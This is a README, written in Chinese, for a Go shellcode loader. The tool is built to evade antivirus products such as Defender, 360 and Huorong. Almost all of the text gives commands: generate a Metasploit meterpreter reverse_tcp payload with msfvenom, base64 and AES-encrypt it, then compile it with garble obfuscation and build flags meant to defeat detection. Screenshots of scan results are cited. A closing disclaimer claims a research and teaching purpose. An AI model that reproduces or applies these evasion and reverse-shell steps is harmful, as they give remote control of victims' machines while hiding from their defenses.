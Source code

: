 # go-shellcode-loader

GO混淆免杀shellcode加载器AES加密

混淆反检测 过DF、360和火绒


#### 获取项目

```Bash
git clone https://github.com/HZzz2/go-shellcode-loader.git
cd go-shellcode-loader
//下条命令安装第三方混淆库  GitHub地址：https://github.com/burrowers/garble
go install mvdan.cc/garble@latest    

```

#### 生成shellcode并base64

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=9999 -f raw > rev.raw`

`base64 -w 0 -i rev.raw > rev.bs64`

`cat rev.bs64`

**复制到aes-sc.go中的51行替换payload**

运行aes-sc.go生成AES加密后的值

`go run aes_sc.go`

复制输出的值到go-sc.go中的73行替换payload

#### **编译成exe可执行程序**

`garble -tiny -literals -seed=random build -ldflags="-w -s -H windowsgui" -race go-sc.go`

参数解释：

  garble(混淆库)：
                          
                          -tiny                    删除额外信息
                          
                          -literals               混淆文字

                          -seed=random   base64编码的随机种子 

  go：
        
        -w                        去掉调试信息，不能gdb调试了

        -s                         去掉符号表

        -H windowsgui    隐藏执行窗口，不占用 cmd 终端。 （被查杀率高）

        -race                    使数据允许竞争检测，编译时改变了生成后的文件特征， 使得杀软无法检测，当然有一天也会失效的。

编译后得到go-sc.exe

#### 检测图

**火绒**

![image](https://user-images.githubusercontent.com/22775890/172315590-c32aa9ad-0b2b-43cd-a96c-45d971a83ef5.png)


**360杀毒**

![image](https://user-images.githubusercontent.com/22775890/172315610-9bfa9d41-31a1-42d5-bd54-b0ce3e73318d.png)


**360卫士**

![image](https://user-images.githubusercontent.com/22775890/172315642-73266f42-6019-42b7-bb02-5dd59b0925b7.png)



**DF**

![image](https://user-images.githubusercontent.com/22775890/172315670-89a23a36-5e1f-40e8-b311-a4a22490d1ca.png)



**virustotal**

![image](https://user-images.githubusercontent.com/22775890/172315706-4fbd57a6-0e14-497a-af91-ea6c7cdf0704.png)



**微步云杀箱**

![image](https://user-images.githubusercontent.com/22775890/172315732-84eb7a75-481c-4904-a341-bd96a336ad87.png)




**运行效果**




https://user-images.githubusercontent.com/22775890/172315782-707cfbbb-90ed-4156-97d8-dcaf0da8a554.mp4


## 免责声明
仅供安全研究与教学之用，如果使用者将其做其他用途，由使用者承担全部法律及连带责任，本人不承担任何法律及连带责任。
